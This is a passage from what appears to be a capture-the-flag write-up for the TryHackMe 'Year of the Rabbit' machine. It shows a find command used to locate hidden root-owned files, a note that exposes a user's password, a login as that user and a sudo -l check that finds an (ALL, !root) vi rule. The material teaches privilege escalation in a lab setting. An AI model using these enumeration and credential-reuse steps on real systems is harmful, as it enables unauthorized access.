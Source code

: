 ```text
find / -type f -user root -iname ".*" -ls 2>/dev/null | less
...
295232  156 -rw-r--r--   1 root     root       157687 Apr 13  2015 /usr/src/linux-headers-3.16.0-4-amd64/.config
 36980    4 -rw-r--r--   1 root     root          138 Jan 23  2020 /usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
...
```

The message has gwendline's password.
```text
eli@year-of-the-rabbit:/usr/games/s3cr3t$ cat .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\! 
Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root
```
Let's login as gwendolin and read the flag. Also, let's see what commands can use as a more privileged user.

```text
gwendoline@year-of-the-rabbit:~$ sudo -l
Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

I can’t use sudo as root, but i can use it as anyone else (eli, or www-data, for example). 

![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Year_of_the_rabbit/images/106-4.png)


